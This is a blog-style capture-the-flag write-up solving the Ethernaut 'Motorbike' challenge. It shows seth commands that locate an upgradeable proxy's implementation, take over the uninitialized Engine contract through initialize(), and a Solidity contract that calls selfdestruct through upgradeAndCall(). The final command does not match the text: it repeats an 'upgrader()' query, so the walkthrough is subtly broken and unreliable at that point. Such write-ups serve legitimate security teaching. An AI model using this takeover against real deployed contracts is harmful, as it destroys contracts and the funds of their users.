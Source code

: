 ```yaml
---
layout: post
title:  "OpenZeppelin Ethernaut 25: Motorbike"
date:   2022-07-05 11:57:16 +0800
---
```

In the past I have gone over all Ethernaut challenges, but it's good to see that more are still being made. Let's see how we can manage to solve this one.

The challenge text is: _"Ethernaut's motorbike has a brand new upgradable engine design. Would you be able to `selfdestruct` its engine and make the motorbike unusable?"_

We are presented with one file containing two contracts, the "motorbike" contract and the "engine" contract. Our objective is to make the "engine" contract somehow self destruct.

Having a look at the `Engine` contract we don't see any existing code that can call `selfdestruct` however the contract is able to make delegated calls, so if we can find a way to have the`Engine` contract make a delegated call to a contract that we choose, we can complete the objective.

The only way to make a delegated call is through the function `upgradeAndCall()`, but that does a check through the function `_authorizeUpgrade()` to ensure that the caller is `upgrader`. That's a shame, because the contract would surely already be initialized... right?

Let's have a check anyways just to be sure. First we have to find out the contract address of the `Engine` contract, because Ethernaut only tells us the address of the `Motorbike` contract. To do this we can check the storage slot at `_IMPLEMENTATION_SLOT`.
```
dev@dev:~/dev/ctf/ethernaut$ seth storage 0xaF6Ebc43FA73B9859e95Fa537526A67989d48882 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
0x00000000000000000000000032e5c3b3c6c402ceb7df4e4f530fd2b94154f61c
```

We have the address of the `Engine` contract, so now let's see if `upgrader` is set.

```
dev@dev:~/dev/ctf/ethernaut$ seth call 0x32e5c3b3c6c402ceb7df4e4f530fd2b94154f61c 'upgrader()'
0x0000000000000000000000000000000000000000000000000000000000000000
```

`upgrader` isn't set, so that means the contract hasn't been initialized, which in turn means that we can be the ones to initialize it ourselves. Let's initialize the contract.
```
dev@dev:~/dev/ctf/ethernaut$ seth send 0x32e5c3b3c6c402ceb7df4e4f530fd2b94154f61c 'initialize()'
```

Now that our address is `upgrader`, we are able to call the function `upgradeAndCall()` which means we can run delegated calls on contracts of our choosing. Let's deploy a contract that is able to self destruct.
{% highlight solidity %}
// SPDX-License-Identifier: MIT

pragma solidity 0.8.6;

contract SelfDestruct {
        function die() external {
                selfdestruct(payable(0x0));
        }
}
{% endhighlight %}

With this contract, all we have to do now is pass it to `upgradeAndCall()` along with the `data` necessary to call the `die()` function.
```
dev@dev:~/dev/ctf/ethernaut$ seth sig "die()"
0x35f46994
```
```
dev@dev:~/dev/ctf/ethernaut$ seth call 0x32e5c3b3c6c402ceb7df4e4f530fd2b94154f61c 'upgrader()'
```

At this point, you can submit the challenge and you will pass.















[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
